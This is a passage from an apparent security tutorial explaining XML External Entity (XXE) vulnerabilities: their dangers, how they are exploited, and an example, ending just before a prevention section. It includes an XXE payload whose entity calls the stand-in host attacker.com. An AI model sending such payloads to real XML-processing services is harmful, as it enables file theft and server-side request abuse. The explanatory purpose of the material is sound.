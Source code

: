 ### What Makes XXE Vulnerabilities Dangerous?

1. **Data Exfiltration**: By exploiting XXE, attackers can retrieve sensitive files from the server, such as configuration files, database backups, or password files, and leak them. This is often used in information gathering during an attack.

2. **Denial of Service (DoS)**: If the XML parser fetches large or recursive external resources, it can lead to a **denial of service**. For example, an attacker could cause an infinite loop or large file fetching, consuming system resources and potentially crashing the service.

3. **Remote Code Execution**: In some advanced scenarios, XXE can be exploited to trigger **remote code execution** by making the parser fetch malicious content or trigger unintended behavior in the application.

4. **Bypassing Security Controls**: Attackers can use XXE to bypass firewalls or access internal services that would otherwise be protected. Since the XML parser might be able to reach resources that the application itself cannot, this creates a potential security hole.

### How is XXE Exploited?

- **Attack Vector**: An attacker can send a malicious XML payload to an application that processes XML data, such as through an API, file upload, or web service.
  
- **Triggering the Exploit**: If the XML parser allows external entities, it will attempt to load resources specified by the attacker's payload. This could result in unauthorized access to internal files, services, or even causing system crashes.

- **Leveraging the Vulnerability**: After the malicious XML is processed, the attacker may gain access to sensitive information, disrupt service, or escalate their attack by exploiting further vulnerabilities on the server.

### Example of an XXE Attack in Action:

Let’s say an application accepts XML input to fetch user profile data. An attacker could send the following malicious XML:

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious_file">
]>
<user>
  <name>&xxe;</name>
</user>
```

In this case:
- The application sends a request to an external URL (`http://attacker.com/malicious_file`) via the external entity.
- If the server's XML parser is vulnerable and allows external entities, it will request the malicious file from the attacker’s server.
- The attacker can serve any data they want, such as a file containing sensitive information or a malicious payload.

### How to Prevent XXE Attacks?
